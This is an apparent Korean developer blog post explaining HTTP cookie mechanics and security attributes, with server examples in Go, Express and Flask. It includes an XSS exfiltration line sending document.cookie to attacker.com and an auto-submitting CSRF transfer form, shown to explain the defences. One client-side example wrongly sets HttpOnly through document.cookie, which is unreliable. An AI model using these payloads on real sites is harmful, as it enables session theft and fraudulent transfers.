

# HTTP Cookie Deep Dive: 25년 경력 개발자의 관점에서 본 웹 상태 관리의 핵심

> **작성일**: 2025년 12월 22일
> **카테고리**: Web, HTTP, Security
> **키워드**: HTTP Cookie, Session, Security, SameSite, HttpOnly, Secure

## 요약

HTTP는 본질적으로 무상태(Stateless) 프로토콜이다. Cookie는 이 무상태 프로토콜에서 상태를 유지하기 위해 1994년 Netscape에서 도입한 메커니즘이다. 이 글에서는 Cookie의 내부 동작 원리부터 보안 속성, 실무에서 마주치는 문제들과 해결 방안까지 깊이 있게 다룬다.

## Cookie의 탄생 배경

### HTTP의 무상태 특성

HTTP 프로토콜은 각 요청이 독립적이다. 서버는 이전 요청에 대한 정보를 기억하지 않는다.

```
GET /page1 HTTP/1.1
Host: example.com
(서버는 이 요청을 처리하고 잊는다)

GET /page2 HTTP/1.1
Host: example.com
(서버 입장에서 이것은 완전히 새로운 클라이언트일 수 있다)
```

이 설계는 서버 확장성 측면에서 유리하지만, 로그인 상태 유지, 장바구니 기능 등 상태가 필요한 기능 구현이 불가능하다.

### Lou Montulli의 해결책

1994년 Netscape의 엔지니어 Lou Montulli가 "Magic Cookie" 개념을 HTTP에 도입했다. 이 개념은 Unix 시스템에서 프로그램 간 데이터를 전달하는 불투명한(opaque) 데이터 조각에서 유래했다.

## Cookie 동작 메커니즘

### Set-Cookie 헤더

서버가 클라이언트에게 Cookie를 설정하는 방식이다.

```http
HTTP/1.1 200 OK
Set-Cookie: session_id=abc123; Path=/; HttpOnly; Secure; SameSite=Lax
Set-Cookie: user_preference=dark_mode; Path=/; Max-Age=31536000
```

### Cookie 헤더

클라이언트가 서버에 Cookie를 전송하는 방식이다.

```http
GET /api/user HTTP/1.1
Host: example.com
Cookie: session_id=abc123; user_preference=dark_mode
```

### 전체 흐름도



## Cookie 속성 상세 분석

### Domain과 Path

```http
Set-Cookie: token=xyz; Domain=example.com; Path=/api
```

**Domain 규칙:**
- 명시하지 않으면 Cookie를 설정한 정확한 호스트에만 전송
- `Domain=example.com` 설정 시 `sub.example.com`을 포함한 모든 서브도메인에 전송
- 상위 도메인 설정 불가 (보안상 이유)

**Path 규칙:**
- `/api` 설정 시 `/api`, `/api/users`, `/api/v1/data` 등에 전송
- `/` 설정 시 모든 경로에 전송

```javascript
// 실무 예시: API와 페이지별 Cookie 분리
// 인증 토큰 - API 경로에만
document.cookie = "auth_token=xxx; Path=/api; Secure; HttpOnly";

// UI 설정 - 전체 사이트
document.cookie = "theme=dark; Path=/";
```

### Expires와 Max-Age

```http
# 절대 시간 지정
Set-Cookie: persistent=value; Expires=Thu, 22 Dec 2026 00:00:00 GMT

# 상대 시간 지정 (초 단위)
Set-Cookie: persistent=value; Max-Age=31536000
```

| 속성 | 동작 | 우선순위 |
|------|------|----------|
| Expires | 지정된 날짜/시간에 만료 | Max-Age가 있으면 무시됨 |
| Max-Age | 지정된 초 후 만료 | 우선 적용 |
| 둘 다 없음 | 브라우저 종료 시 삭제 (Session Cookie) | - |

### HttpOnly

```http
Set-Cookie: session_id=abc123; HttpOnly
```

JavaScript에서 접근 불가:

```javascript
// HttpOnly가 설정된 Cookie는 읽을 수 없음
console.log(document.cookie); // session_id 포함되지 않음
```

XSS 공격으로부터 세션 탈취를 방어한다:

```javascript
// 공격자의 악성 스크립트
// HttpOnly 덕분에 session_id 탈취 실패
fetch('https://attacker.com/steal?cookie=' + document.cookie);
```

### Secure

```http
Set-Cookie: auth=token123; Secure
```

HTTPS 연결에서만 Cookie 전송. HTTP 요청에서는 해당 Cookie가 포함되지 않는다.

```
https://example.com/api  → Cookie 전송됨
http://example.com/api   → Cookie 전송 안 됨
```

### SameSite (CSRF 방어의 핵심)

2016년에 도입되어 현재 모든 주요 브라우저에서 지원하는 속성이다.

```http
Set-Cookie: csrf_token=abc; SameSite=Strict
Set-Cookie: session_id=xyz; SameSite=Lax
Set-Cookie: tracking=123; SameSite=None; Secure
```

| 값 | Cross-Site 요청 시 Cookie 전송 | 사용 사례 |
|-----|-------------------------------|----------|
| Strict | 전송 안 함 | 금융, 결제 등 민감한 작업 |
| Lax | Top-level navigation (링크 클릭)만 전송 | 일반적인 세션 관리 (기본값) |
| None | 항상 전송 (Secure 필수) | 서드파티 위젯, 임베드 콘텐츠 |

**CSRF 공격 시나리오와 SameSite 방어:**

```html
<!-- attacker.com의 악성 페이지 -->
<form action="https://bank.com/transfer" method="POST">
  <input name="to" value="attacker_account">
  <input name="amount" value="10000">
</form>
<script>document.forms[0].submit();</script>
```

SameSite=Strict 또는 Lax가 설정되어 있다면, `attacker.com`에서 `bank.com`으로의 요청에 Cookie가 포함되지 않아 공격이 실패한다.

## 실무에서 자주 발생하는 문제들

### 1. Third-Party Cookie 차단

Chrome의 Privacy Sandbox 정책으로 서드파티 Cookie가 점진적으로 차단되고 있다.

**영향받는 기능:**
- 서드파티 로그인 위젯
- 크로스 사이트 트래킹
- 임베디드 콘텐츠의 인증

**대응 방안:**

```javascript
// Storage Access API 사용
document.requestStorageAccess().then(() => {
  // 서드파티 Cookie 접근 가능
}).catch(() => {
  // 사용자가 거부하거나 브라우저가 차단
  // 대체 인증 방식 제공
});
```

### 2. SameSite=None 설정 시 주의사항

```http
# 잘못된 설정 - Secure 없이 None 사용
Set-Cookie: id=123; SameSite=None
# 브라우저가 Cookie를 거부하거나 SameSite=Lax로 처리

# 올바른 설정
Set-Cookie: id=123; SameSite=None; Secure
```

### 3. Cookie 크기 제한

RFC 6265에서 정의된 최소 요구사항:
- Cookie 당 최소 4096 bytes
- 도메인 당 최소 50개 Cookie
- 총 최소 3000개 Cookie

실제 브라우저별 제한은 다르다:

| 브라우저 | Cookie 당 크기 | 도메인 당 개수 |
|---------|---------------|--------------|
| Chrome | 4096 bytes | 180개 |
| Firefox | 4097 bytes | 150개 |
| Safari | 4096 bytes | 제한 없음 (전체 크기 제한) |

**대용량 데이터 처리:**

```javascript
// 잘못된 방식 - Cookie에 대용량 데이터 저장
document.cookie = `cart=${JSON.stringify(largeCartData)}`; // 4KB 초과 시 잘림

// 올바른 방식 - 서버 세션 또는 별도 스토리지 활용
document.cookie = "cart_id=abc123"; // ID만 저장
// 실제 데이터는 서버 세션 또는 IndexedDB에 저장
```

### 4. Cookie와 CORS

Cross-Origin 요청에서 Cookie를 전송하려면 양쪽 설정이 필요하다:

**클라이언트:**
```javascript
fetch('https://api.example.com/data', {
  credentials: 'include' // Cookie 포함
});
```

**서버:**
```http
Access-Control-Allow-Origin: https://app.example.com  # * 불가
Access-Control-Allow-Credentials: true
```

`Access-Control-Allow-Origin: *`와 `credentials: include`는 동시에 사용할 수 없다. 명시적인 Origin을 지정해야 한다.

## 보안 관점의 Cookie 설정 가이드

### 세션 Cookie 권장 설정

```http
Set-Cookie: session_id=<cryptographically-random-value>;
            Path=/;
            HttpOnly;
            Secure;
            SameSite=Lax;
            Max-Age=3600
```

### Remember Me Cookie

```http
Set-Cookie: remember_token=<signed-token>;
            Path=/;
            HttpOnly;
            Secure;
            SameSite=Strict;
            Max-Age=2592000
```

### CSRF Token Cookie

```http
Set-Cookie: csrf_token=<random-value>;
            Path=/;
            Secure;
            SameSite=Strict
            # HttpOnly 없음 - JavaScript에서 읽어서 헤더에 포함해야 함
```

## Cookie vs 대안 기술 비교

| 특성 | Cookie | localStorage | sessionStorage | IndexedDB |
|------|--------|--------------|----------------|-----------|
| 용량 | ~4KB | ~5MB | ~5MB | 무제한 |
| 서버 전송 | 자동 | 수동 | 수동 | 수동 |
| 만료 | 설정 가능 | 없음 | 탭 종료 시 | 없음 |
| 접근 범위 | 서버 + 클라이언트 | 클라이언트만 | 클라이언트만 | 클라이언트만 |
| HTTP 요청 크기 영향 | 있음 | 없음 | 없음 | 없음 |

**선택 기준:**
- 서버 인증이 필요하면 Cookie
- 클라이언트만 사용하는 설정은 localStorage
- 대용량 구조화 데이터는 IndexedDB

## 실무 구현 예시

### Go (net/http)

```go
func SetSessionCookie(w http.ResponseWriter, sessionID string) {
    cookie := &http.Cookie{
        Name:     "session_id",
        Value:    sessionID,
        Path:     "/",
        HttpOnly: true,
        Secure:   true,
        SameSite: http.SameSiteLaxMode,
        MaxAge:   3600,
    }
    http.SetCookie(w, cookie)
}

func GetSessionCookie(r *http.Request) (string, error) {
    cookie, err := r.Cookie("session_id")
    if err != nil {
        return "", err
    }
    return cookie.Value, nil
}
```

### Node.js (Express)

```javascript
const express = require('express');
const cookieParser = require('cookie-parser');

const app = express();
app.use(cookieParser());

app.post('/login', (req, res) => {
  const sessionId = generateSecureSessionId();

  res.cookie('session_id', sessionId, {
    httpOnly: true,
    secure: process.env.NODE_ENV === 'production',
    sameSite: 'lax',
    maxAge: 3600 * 1000, // milliseconds
    path: '/'
  });

  res.json({ success: true });
});

app.get('/logout', (req, res) => {
  res.clearCookie('session_id', {
    httpOnly: true,
    secure: process.env.NODE_ENV === 'production',
    sameSite: 'lax',
    path: '/'
  });

  res.redirect('/');
});
```

### Python (Flask)

```python
from flask import Flask, make_response, request

app = Flask(__name__)

@app.route('/login', methods=['POST'])
def login():
    session_id = generate_secure_session_id()

    response = make_response({'success': True})
    response.set_cookie(
        'session_id',
        session_id,
        httponly=True,
        secure=True,
        samesite='Lax',
        max_age=3600,
        path='/'
    )

    return response
```

## Cookie 디버깅

### 브라우저 DevTools

Chrome DevTools > Application > Cookies에서 확인 가능한 정보:
- Name, Value
- Domain, Path
- Expires/Max-Age
- Size
- HttpOnly, Secure, SameSite
- Priority
- Partition Key (CHIPS)

### curl을 이용한 테스트

```bash
# Cookie 저장하면서 요청
curl -c cookies.txt -b cookies.txt \
  -X POST https://example.com/login \
  -d "username=test&password=test"

# 저장된 Cookie로 요청
curl -b cookies.txt https://example.com/dashboard

# Set-Cookie 헤더 확인
curl -I https://example.com/login
```

## 교훈

### 1. 보안 속성은 선택이 아닌 필수

HttpOnly, Secure, SameSite는 "있으면 좋은" 기능이 아니다. 설정하지 않으면 XSS, CSRF, 중간자 공격에 노출된다.

### 2. Cookie는 인증 토큰용으로 최적화되어 있다

대용량 데이터 저장, 클라이언트 전용 상태 관리에는 적합하지 않다. 각 HTTP 요청에 Cookie가 포함되므로 불필요한 데이터는 다른 저장소를 사용한다.

### 3. Cross-Site 시나리오를 항상 고려한다

서드파티 Cookie 정책 변화, SameSite 기본값 변경 등 브라우저 정책이 지속적으로 강화되고 있다. 새 기능 구현 시 Cross-Site 동작을 반드시 테스트한다.

## 참고 자료

### 공식 문서
- [RFC 6265 - HTTP State Management Mechanism](https://datatracker.ietf.org/doc/html/rfc6265)
- [RFC 6265bis (draft) - Cookie Prefixes, SameSite 등 최신 확장](https://datatracker.ietf.org/doc/html/draft-ietf-httpbis-rfc6265bis)
- [MDN - HTTP Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

### 브라우저 정책
- [Chrome Privacy Sandbox](https://privacysandbox.com/)
- [SameSite Cookie Explained (web.dev)](https://web.dev/samesite-cookies-explained/)
- [Storage Access API](https://developer.mozilla.org/en-US/docs/Web/API/Storage_Access_API)

### 보안 가이드
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [OWASP Cross-Site Request Forgery Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
